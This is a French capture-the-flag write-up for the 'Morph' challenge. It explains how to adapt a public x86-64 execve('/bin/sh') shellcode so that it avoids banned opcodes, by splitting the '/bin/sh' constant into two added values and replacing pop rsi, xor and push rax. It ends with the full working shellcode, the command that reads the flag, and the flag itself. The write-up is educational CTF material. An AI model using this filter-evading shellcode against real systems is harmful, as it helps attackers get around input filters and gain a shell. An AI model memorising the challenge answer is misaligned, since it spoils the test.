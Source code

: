 # Writeup - Morph

Le but est d'écrire un shellcode permettant d'accéder au flag (ou un shell sur la machine), tout en satisfaisant les conditions demandées (filtre de certains opcodes).

## Solve

On prend le premier shellcode dispo sur internet : https://shell-storm.org/shellcode/files/shellcode-909.html

```as
	mov rax, 0x68732f6e69622f
	push rax
	push rsp
	pop rdi
	xor eax, eax
	push rax
	mov al, 59
	push rsp
	pop rdx
	push rsp
	pop rsi
	syscall
``` 

On peut vérifier si notre shellcode contient les opcodes bannis sur : https://shell-storm.org/online/Online-Assembler-and-Disassembler/

Dans ce cas-là on tombe sur des opcodes bannis, on va donc aller modifier les instructions problématiques par d'autres instructions équivalentes dans notre contexte.

### Problème 1 : b
Le "b" est banni, impossible de noter `/bin/bash` ou `/bin/sh`, il faut donc ruser : on divise la valeur décimale de `/bin/sh` en deux valeurs qu'on additionne, et hop. On aurait aussi pu faire une soustraction, un xor, peu importe !

```as
; Instructions avec b
	mov rax, 0x68732f6e69622f
	push rax
; "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00"


; Instructions sans b
	mov rdx, 0x343997b734b117
	mov rcx, 0x343997b734b118
	add rdx, rcx
	push rdx
; "\x48\xba\x17\xb1\x34\xb7\x97\x39\x34\x00\x48\xb9\x18\xb1\x34\xb7\x97\x39\x34\x00\x48\x01\xca\x52"
```

### Problème 2 : pop rsi
L'opcode de `pop rsi` est `\x5e` et est banni, on va donc le contourner : on passe par le registre `rcx` en intermédiaire.

```as
; Instructions avec pop rsi
	pop rsi
	syscall
; "\x5e\x0f\x05"

; Instructions sans pop rsi
	pop rcx
	mov rsi, rcx
	syscall
; "\x59\x48\x89\xce\x0f\x05"
```

### Problème 3 : xor
Certains xor utilisent l'opcode `\x31`, on va donc utiliser `mov reg, 0` à la place. Ça prend plus de place, mais ça fonctionne !

```as
; Instructions avec xor
	xor eax, eax
	push rax
; "\x31\xc0\x50"

; Instructions sans xor
	mov rcx, 0
	push rcx
; "\x48\xc7\xc1\x00\x00\x00\x00\x51"
```

### Problème 4 : push rax
De même avec `\x50` qui représente `push rax`, on va donc utiliser un autre registre. (c'est déjà ce qu'on a fait pour les autres).

## Solution finale proposée

D'autres solutions (plus optimisées) existent, mais voici une solution qui fonctionne :
```as
		mov rdx, 0x343997b734b117
		mov rcx, 0x343997b734b118
		add rdx, rcx
		push rdx
		push rsp
		pop rdi
		mov rcx, 0
		push rcx
		mov al, 59
		push rsp
		pop rdx
		push rsp
		pop rcx
		mov rsi, rcx
		syscall
```

Il suffit d'afficher le flag :
`cat /flag.txt`

> `BZHCTF{PikaPika_erm...MetaMeta}`